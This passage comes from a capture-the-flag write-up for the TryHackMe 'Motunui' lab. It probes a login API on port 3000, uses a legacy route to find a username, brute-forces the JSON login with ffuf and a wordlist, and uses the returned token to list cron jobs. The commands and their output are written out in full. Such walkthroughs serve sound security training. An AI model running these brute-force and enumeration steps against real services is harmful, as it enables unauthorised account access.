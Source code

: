 So we got another virtual host --> `api.motunui.thm`-  running on port 3000.

Navigating to `api.motunui.thm:3000/v2/login` using a POST request. We get an "Invalid Credentials" just like the ROUTES.md" file said, so we need to pass in the "username and password" parameters with the correct credentials too before we can access the `/jobs` dir.

I tried some default credentials to login using curl, but didn't work.

{% code overflow="wrap" %}
```bash
curl http://api.motunui.thm:3000/v2/login -X POST -d '{"username":"admin","password":"admin"}'

{"error":"invalid credentials"}
```
{% endcode %}

### Initial Access

As the api version was v2, I checked whether the old api version was still available.

```bash
local@local:~/Documents/tryhackme/motunui$ curl http://api.motunui.thm:3000/v1/login
{"message":"please get maui to update these routes"}
```

And we get message back leaking a potential username --> `maui`&#x20;

So we have to bruteforce his password, just like the room description (JSON bruteforce).

We can use wfuzz, ffuf or [jsonbrute](https://github.com/Jake-Ruston/JSONBrute) tool.

{% code overflow="wrap" %}
```bash
ffuf -u http://api.motunui.thm:3000/v2/login -w /usr/share/wordlists/rockyou.txt -X POST -H 'Content-Type: application/json' -d '{"username":"maui","password":"FUZZ"}' -fs 31

island
```
{% endcode %}

We got the password.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl http://api.motunui.thm:3000/v2/login -X POST -H 'Content-Type: application/json' -d '{"username":"maui","password":"island"}'

{"hash":"aXNsYW5k"}            
# we get hash now.
```
{% endcode %}

We can jnow check running jobs for this user.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl http://api.motunui.thm:3000/v2/jobs -X GET -H 'Content-Type: application/json' -d '{"hash":"aXNsYW5k"}'

{"jobs":["* * * * * echo \"They have stolen the heart from inside you, but that does not define you\" > /tmp/quote"]}
```
{% endcode %}
